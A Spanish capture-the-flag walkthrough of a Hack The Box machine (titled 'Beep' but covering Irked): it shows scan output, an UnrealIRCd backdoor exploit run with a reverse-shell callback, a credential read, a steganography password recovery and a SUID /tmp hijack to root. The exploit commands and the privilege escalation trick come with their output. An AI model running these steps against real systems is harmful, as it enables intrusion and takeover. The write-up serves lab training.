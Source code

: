 # Beep ![Avatar](https://www.hackthebox.eu/storage/avatars/5fb846e75cf0db0c4b27e2dc64a9bf82_thumb.png)

### Initial Scan

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34234/tcp   status
|   100024  1          41847/udp   status
|   100024  1          47934/udp6  status
|_  100024  1          51357/tcp6  status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
34234/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

### Enumeration

La versión del IRC presenta una vulnerabilidad (CVE 2010-2075) que permite RCE, exploremos esta via

### Exploit

Encontramos un exploit que valga para este CVE y nos lo descargamos
```
https://github.com/M4LV0/UnrealIRCd-3.2.8.1-RCE
```
Lancemos el exploit
```
python2.7 pwnunrealirc.py 10.10.14.2 4444 10.10.10.117 6697
```
Tenemos shell
```
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```
Dado que no hay user.txt en nuestra carpeta veamos que mas usuarios tenemos
```
ircd@irked:~/Unreal3.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh
```
djmardov tiene la flag del user no por intuición si no porque podemos ver dentro de su carpeta home, no tenemos permiso para leerla, pero si para leer un archivo de backup

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Steg puede implicar la presencia de steganografia en la imagen hallada en la pagina web, descargemosla y comprobemos si podemos sacar algo 

```
pj@crow-foot:~/Current$ steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss 
anoto los datos extraodos en/"pass.txt".
```
En pass.txt tenemos lo siguiente
```
Kab6h+m+bbp2J:HG
```
Las creds quedan asi
```creds
djmardov:Kab6h+m+bbp2J:HG
```
Y con esto ya podemos logearnos y obtener la primera flag
### Priv Escalation

Buscamos SUID
```
djmardov@irked:~$ find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```
viewuser parece sospechoso, ejecutemoslo

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-08-01 10:45 (:0)
djmardov pts/1        2020-08-01 12:22 (10.10.14.2)
sh: 1: /tmp/listusers: not found
```
Parece que busca algún archivo en /tmp veamos si podemos invocar una shell abusando de ello.

```
echo '/bin/bash -p' > /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser 
```
Con esto ya tenmos una shell como administrador
```
root@irked:~# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth).
```

Ahora solo nos queda leer la root flag 
```
root@irked:/root# wc -c root.txt 
33 root.txt
```

